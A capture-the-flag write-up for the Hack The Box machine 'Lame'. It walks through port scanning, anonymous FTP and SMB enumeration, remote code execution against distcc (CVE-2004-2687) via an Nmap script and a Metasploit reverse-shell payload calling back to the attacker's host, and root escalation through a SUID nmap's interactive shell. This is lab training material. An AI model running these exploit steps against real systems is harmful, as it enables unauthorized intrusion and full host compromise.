


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Lame

## Summary

[Lame](https://app.hackthebox.com/machines/1) is an <mark style="color:green;">easy-rated</mark> beginner-friendly machine offering an engaging foothold and a standard privilege escalation path. Despite unfruitful attempts at **enumerating host shares**, exploration of the **`distcc`** service unveils exploitable opportunities. Leveraging **Metasploit**, we establish our **foothold**, while a search for **SUIDs** enables successful **privilege escalation**.

<table><thead><tr><th width="94" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td><code>distcc</code> research</td><td><a href="../../../tools/tools/port-scanners/nmap.md">nmap</a>, <a href="https://www.metasploit.com/">metasploit</a></td><td>Foothold</td></tr><tr><td align="right">2</td><td>Host enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LotL</a></td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Open Ports

Let's start with a port-scan using our [very-simple script](../../../tools/tools/port-scanners/nmap.md#nmap-scan).

```bash
$ nmap-scan.sh 10.10.10.3
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

Based on Nmap's result, there are 5 ports open which reveal some interesting information worth noting down (Figure 1).

<figure><figcaption><p>Figure 1: Port scanning using <code>nmap</code>.</p></figcaption></figure>

Before moving forward, we should add the hostname, the domain name and the FQDN[^2] to our local DNS file.

```bash
$ grep lame /etc/hosts
10.10.10.3      hackthebox.gr lame.hackthebox.gr lame
```

### FTP

We can confirm that the FTP server is completely empty, so not much to do here.

```bash
# Connecting to the FTP server
$ ftp anonymous@lame
Connected to hackthebox.gr.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50264|).
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

### SMB

The SMB server also allows anonymous authentication and by enumerating it using [NetExec](../../../tools/tools/active-directory/netexec-cme.md), we see only one non-default share: `tmp`. Interestingly enough, we have both `READ` and `WRITE` access to it, which allows us to spider it. At the first glance, the file `vgauthsvclog.txt.0` seems interesting, but, unfortunately, it contains nothing useful.

```bash
# Enumerating SMB shares
nxc smb lame -u '' -p '' --shares
# Spidering the tmp share
nxc smb lame -u '' -p '' --spider tmp --regex .
# Downloading the file
nxc smb lame -u '' -p '' --share tmp --get-file vgauthsvclog.txt.0 vgauthsvclog.txt
```

<figure><figcaption><p>Figure 2: Enumerating the SMB server.</p></figcaption></figure>

Since we have `WRITE` access to the `tmp` share, we can try to steal some hashes by uploading a `SCF` file to it as described [here](../../../services/services/smb-139-445.md#scf), but that does not seem to work.

## Foothold

### Distcc

We are out of choices; the only port left is the strange `3632`! So let's find out about that. Based on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc), `distcc` is _a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution_.

There is only a Metasploit module to try on the above article which is based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687) and leads to RCE. There is also an [Nmap script](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html) that exploits it, so let's try that first (Figure 3).


```bash
# Using NSE to check for 
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```


<figure><figcaption><p>Figure 3: Exploiting <code>distcc</code> using Nmap's NSE.</p></figcaption></figure>

That worked, so let's get a shell via Metasploit and, hopefully, read the `user.txt` flag 🚩 (Figure 4).

```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```

<figure><figcaption><p>Figure 4: Dropping into a shell and reading the user flag.</p></figcaption></figure>

## Privilege Escalation

### Permissions

After enumerating the host, we can't really find anything that we could use to elevate our privileges. The next step is to check for [SUID files](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit).

```bash
# Checkin for SUID files
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
<SNIP>
```

From the above output, `nmap` stands out right away. Checking [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) allows us to find a way and leverage the `nmap` binary (Figure 5) and read the `root.txt` flag 🚩.

<figure><figcaption><p>Figure 5: The GFTOBins guidance on how to leverage the <code>nmap</code> binary.</p></figcaption></figure>

```bash
daemon@lame:/$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
026<REDACTED>125
```

[^1]: Living off the Land

[^2]: Fully Qualified Domain Name
